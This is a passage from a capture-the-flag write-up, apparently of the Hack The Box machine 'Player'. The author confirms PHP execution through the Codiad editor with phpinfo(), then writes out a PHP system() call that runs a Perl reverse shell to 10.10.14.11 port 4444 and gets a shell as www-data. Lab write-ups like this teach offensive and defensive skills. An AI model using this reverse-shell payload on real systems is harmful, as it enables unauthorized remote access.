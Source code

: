 To test PHP execution I just call `phpinfo()` and see that it works:

![](/assets/images/htb-writeup-player/codiad_phpinfo.png)

![](/assets/images/htb-writeup-player/phpinfo.png)

Next, I'll get a shell using perl with the following PHP code:

```php
<?php system('perl -e \'use Socket;$i="10.10.14.11";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};\''); ?>
```

Finally, I get a shell as `www-data`.

![](/assets/images/htb-writeup-player/shell.png)
